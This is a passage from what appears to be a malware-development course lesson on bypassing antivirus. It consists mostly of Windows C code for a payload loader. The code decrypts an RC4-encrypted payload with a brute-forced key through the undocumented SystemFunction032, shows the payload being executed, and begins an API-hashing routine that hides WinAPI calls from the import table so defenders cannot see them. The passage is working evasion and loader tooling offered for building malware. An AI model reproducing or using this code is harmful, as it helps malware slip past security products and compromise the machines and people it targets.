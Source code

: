 ```c
			b++;
	}

	printf("[i] Calculated 'b' to be : 0x%0.2X \n", b);

	// Decrypting the key
	for (int i = 0; i < KEY_SIZE; i++) {
		RealKey[i] = (BYTE)((pRc4Key[i] ^ b) - i);
	}

	// Making 2 USTRING variables, 1 passed as key and one passed as the block of data to encrypt/decrypt
	USTRING         Key = { .Buffer = RealKey,              .Length = dwRc4KeySize,         .MaximumLength = dwRc4KeySize },
			        Img = { .Buffer = pPayloadData,         .Length = sPayloadSize,         .MaximumLength = sPayloadSize };


	// Since SystemFunction032 is exported from Advapi32.dll, we load it Advapi32 into the prcess,
	// And using its return as the hModule parameter in GetProcAddress
	fnSystemFunction032 SystemFunction032 = (fnSystemFunction032)GetProcAddress(LoadLibraryA("Advapi32"), "SystemFunction032");

	// If SystemFunction032 calls failed it will return non zero value
	if ((STATUS = SystemFunction032(&Img, &Key)) != 0x0) {
		printf("[!] SystemFunction032 FAILED With Error : 0x%0.8X\n", STATUS);
		return FALSE;
	}

	return TRUE;
}
```

### Brute Force Decryption Results

Executing the payload (Anti analysis features are disabled).

![image](https://maldevacademy.s3.amazonaws.com/images/Intermediate/av-bypass-816812885-3a8e28cd-22cb-42f0-9673-9d58ea2471da.png)

### API Hashing

So far, all the WinAPIs used have been called directly, which means they can be found in the IAT of the implementation. To resolve this, a new file, `ApiHashing.c`, is created which contains the necessary functions for implementing API hashing.

**ApiHashing.c**

```c
#include <Windows.h>

#include "Structs.h"
#include "Common.h"

FARPROC GetProcAddressH(HMODULE hModule, DWORD dwApiNameHash) {

	if (hModule == NULL || dwApiNameHash == NULL)
		return NULL;

	PBYTE pBase = (PBYTE)hModule;

	PIMAGE_DOS_HEADER       pImgDosHdr       = (PIMAGE_DOS_HEADER)pBase;
	if (pImgDosHdr->e_magic != IMAGE_DOS_SIGNATURE)
		return NULL;

```